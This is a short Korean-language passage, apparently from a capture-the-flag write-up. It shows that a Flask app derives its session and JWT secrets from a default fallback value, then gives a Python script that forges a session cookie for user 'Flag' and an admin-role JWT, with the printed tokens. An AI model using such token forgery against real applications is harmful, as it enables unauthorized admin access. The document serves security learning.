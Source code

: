 대상 내에는 계정 생성프로세스가 존재함. 계정생성 후 admin_jwt 발급 확인
app.py 소스를 다시보면

base = os.environ.get("Q_SECRET", "qnqsec-default")

app.config['SECRET_KEY'] = hashlib.sha1(("pepper:" + base).encode()).hexdigest()
app.config['JWT_SECRET'] = hashlib.sha256(("jwtpepper:" + base).encode()).hexdigest()

으로 base값과 SECRET_KEY와 JWT_SECRET 방법 확인 가능함. 따라서 base값을 알면 서명값 획득이 가능
Flag user로 서명값 생성 시도

```jupyter
# make_tokens_nolib.py
from flask import Flask, session
import hashlib, time, hmac, base64, json

def b64url(b: bytes) -> str:
    return base64.urlsafe_b64encode(b).rstrip(b"=").decode()

def jwt_encode_hs256(payload: dict, key: str) -> str:
    header = {"alg":"HS256","typ":"JWT"}
    head = b64url(json.dumps(header,separators=(',',':')).encode())
    body = b64url(json.dumps(payload,separators=(',',':')).encode())
    signing_input = f"{head}.{body}".encode()
    sig = hmac.new(key.encode(), signing_input, hashlib.sha256).digest()
    return f"{head}.{body}.{b64url(sig)}"

base = "qnqsec-default"
SECRET_KEY = hashlib.sha1(("pepper:" + base).encode()).hexdigest()
JWT_SECRET = hashlib.sha256(("jwtpepper:" + base).encode()).hexdigest()

app = Flask(__name__)
app.secret_key = SECRET_KEY
with app.test_request_context('/'):
    session.clear()
    session['user'] = "Flag"
    s = app.session_interface.get_signing_serializer(app)
    flask_session_cookie = s.dumps(dict(session))

now = int(time.time())
payload = {"sub":"Flag","role":"admin","iat":now,"exp":now+3600}
jwt_token = jwt_encode_hs256(payload, JWT_SECRET)

print("SESSION_COOKIE="+flask_session_cookie)
print("ADMIN_JWT="+jwt_token)
```

SESSION_COOKIE=eyJ1c2VyIjoiRmxhZyJ9.aPHQcg.MSkYl-Po1_e1rvV4WXQYfBGL47U
ADMIN_JWT=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJGbGFnIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNzYwNjc4MDAyLCJleHAiOjE3NjA2ODE2MDJ9.NjChcdrIgcKTa43tjCwe2KyMlF0rVWEEFLQ__B9tC3s

인증값 획득 가능
